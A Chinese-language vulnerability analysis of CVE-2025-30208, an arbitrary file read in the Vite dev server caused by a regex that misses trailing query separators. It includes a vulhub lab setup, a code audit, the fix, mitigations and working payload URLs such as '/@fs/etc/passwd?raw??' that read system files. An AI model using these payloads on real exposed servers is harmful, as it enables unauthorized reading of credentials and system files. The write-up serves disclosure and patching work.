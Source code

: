 # 1、漏洞信息

Vite是一个现代化的前端构建工具，旨在提供更快的开发体验。它通过基于原生ES模块的开发服务器，在开发过程中实现极速热更新（HMR）。Vite在构建时使用了高度优化的打包工具，如esbuild，极大提高了构建速度。它支持多种前端框架（如React、Vue）并可以通过插件扩展功能。Vite的目标是简化前端开发工作流，并提升开发效率。



攻击者可以绕过 `server.fs.deny` 功能，该功能旨在限制对 Vite 服务允许列表之外的文件的访问。可通过构造包含`?raw??`或`?import&raw??`附加到使用 `@fs` 前缀的 URL，攻击者可以读取文件系统上的任意文件，只要 Node.js 进程具有读取文件的权限即可。该问题源于系统在处理URL查询参数时未正确识别尾部分隔符，导致绕过控制逻辑。仅当开发服务器通过`--host`或`server.host`暴露至网络时，漏洞才可被利用。



# 2、漏洞概述

| 漏洞名称  | 任意文件读取漏洞                                |
| --------- | ----------------------------------------------- |
| 漏洞等级  | 中危                                            |
| CVE编号   | CVE-2025-30208                                  |
| CNVD编号  | 暂无                                            |
| CNNVD编号 | 暂无                                            |
| 其他编号  | 暂无                                            |
| 披露时间  | 2025-03-24                                      |
| 分数      | 5.3                                             |
| CVSS      | CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:N/A:N    |
| 披露链接  | https://www.cve.org/CVERecord?id=CVE-2025-30208 |



# 3、影响范围

```
6.2.0 <= vite < 6.2.3
6.1.0 <= vite < 6.1.2
6.0.0 <= vite < 6.0.12
5.0.0 <= vite < 5.4.15
vite < 4.5.10
```



# 4、环境搭建

```
git clone --depth 1 https://github.com/vulhub/vulhub.git
cd /opt/vulhub/vite/CVE-2025-30208/
docker compose up -d
```

浏览器访问`http://YOUIP:5173`



# 5、代码审计

以`v6.2.2`进行分析

```
http://localhost:5173/@fs/C://windows/win.ini
```

根据修复代码定位到`packages\vite\src\node\server\middlewares\transform.ts`，在URL出打下断点，跳入到`removeTimestampQuery`方法中

![image-20250427133637366](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271336659.png)



这里出现两个正则

```
#用于匹配特定格式的时间戳字符串t=1234567890123
const timestampRE = /\bt=\d{13}&?\b/

#检查url是否以?或&结尾
const trailingSeparatorRE = /[?&]$/
```

![image-20250427133714541](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271337593.png)

![image-20250427133728156](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271337251.png)



在过滤处理后当前的URL

![image-20250427133804594](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271338671.png)



跳回原来的方法继续执行，以下是一些if判断均不满足条件直接跳过

![image-20250427133821255](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271338349.png)

![image-20250427133842511](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271338602.png)

![image-20250427133856575](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271338692.png)



到了关键处，观察if表达式存在逻辑表达式和短路求值的内容：

![image-20250427133916009](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271339073.png)



```
A || B：如果 A 为 true，则不会执行 B
A && B：如果 A 为 false，则不会执行 B
```

会先判断`(rawRE.test(url) || urlRE.test(url))`当满足`rawRE.test(url)=false`并且`urlRE.test(url)=false`时则跳过`ensureServingAccess`函数，该函数则为vite服务器的一个安全函数用于检查请求的 URL 是否允许被 Vite 服务访问

https://vite.dev/config/server-options.html#server-fs-allow

![image-20250427134005481](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271340578.png)



ensureServingAccess代码

![image-20250427134040806](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271340905.png)



接下来看两个正则

```
#匹配url是否有url参数
export const urlRE = /(\?|&)url(?:&|$)/
#匹配url是否有raw参数
export const rawRE = /(\?|&)raw(?:&|$)/
```

![image-20250427134109094](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271341190.png)



此时我们的url为

```
/@fs/C://windows/win.ini?import&raw?
```

首先我们的url内容没有url参数，满足`rawRE.test(url)=false`即可

```
rawRE.test("/@fs/C://windows/win.ini?import&raw?")
```

![image-20250427134154708](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271341808.png)



为什么POC没有被正则匹配到，是因为这段正则出现了问题，`/(\?|&)raw(?:&|$)/`只匹配`raw` 后的&或字符串结尾，`raw?`正好绕过

![image-20250427134315925](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271343983.png)

![image-20250427134325144](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271343202.png)



再看官方的修复对比v6.2.2和v6.2.3增加了一条正则进行匹配，这段正则专门匹配URL 末尾是否有多余的查询参数分隔符（`?` 或 `&`）从而修复了该问题

```
const trailingQuerySeparatorsRE = /[?&]+$/
```

![image-20250427134545073](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271345174.png)



# 6、漏洞复现

首先，尝试使用标准 `@fs` 前缀访问 `/etc/passwd`，以验证是否正确阻止了对允许目录之外的文件的正常访问

```
/@fs/etc/passwd
```

![image-20250427135140098](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271351222.png)



将 `?raw??` 附加到 URL，可以绕过此限制并检索文件的内容

```
/@fs/etc/passwd?raw??
/@fs/etc/passwd?import&raw??
```

![image-20250427135254841](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271352967.png)



# 7、解决方案

## 7.1、临时缓解方案

如果暂时无法升级，可以采取以下措施降低风险：

限制网络访问：避免使用 `--host` 或设置 `server.host` 为 `localhost`，确保开发服务器仅限本地访问。

严格文件权限：确保敏感文件不可被 Vite 进程读取（例如通过操作系统权限控制）。



## 7.2、升级修复方案

Vite 官方已发布安全补丁，修复版本包括：

```
6.2.6、6.1.5、6.0.15、5.4.18、4.5.13
```

请尽快通过 `npm update vite` 或手动升级到以上版本以修复漏洞。



# 8、POC

https://github.com/kk12-30/CVE-2025-30208

 

```
/@fs/etc/passwd?raw??
```



# 9、参考链接

https://cloud.tencent.com/developer/article/2513407

https://zhuanlan.zhihu.com/p/1888287048588301186







